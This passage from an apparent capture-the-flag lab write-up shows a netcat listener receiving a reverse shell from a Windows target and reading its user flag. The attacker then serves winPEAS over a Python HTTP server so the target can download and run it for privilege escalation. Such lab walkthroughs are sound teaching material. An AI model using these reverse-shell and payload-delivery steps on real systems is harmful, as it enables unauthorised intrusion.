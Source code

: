 And we now have a nice stable foothold on the server:

```console
┌──(kali㉿kali)-[~]
└─$ sudo nc -lvnp 444            
listening on [any] 444 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.156.236] 49679
Microsoft Windows [Version 10.0.17763.2061]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\sql_svc\Downloads>cd ..
cd ..

C:\Users\sql_svc>cd Desktop         
cd Desktop

C:\Users\sql_svc\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\sql_svc\Desktop

01/20/2020  06:42 AM    <DIR>          .
01/20/2020  06:42 AM    <DIR>          ..
02/25/2020  07:37 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,715,213,824 bytes free

C:\Users\sql_svc\Desktop>type user.txt
type user.txt
3e7b102e78218e935bf3f4951fec21a3
```

We found the user flag! Now it is time to get root.

We can use [winPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) for that. Let's download winPEASx64.exe to the server and execute it.

```console
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo python3 -m http.server 82
Serving HTTP on 0.0.0.0 port 82 (http://0.0.0.0:82/) ...
10.129.156.236 - - [13/Apr/2022 12:56:28] "GET /winPEASx64.exe HTTP/1.1" 200
```

```console
C:\Users\sql_svc\Downloads>.\winPEASx64.exe

(...)

----------* PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.17763.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
    PS history size: 79B

(...)
```
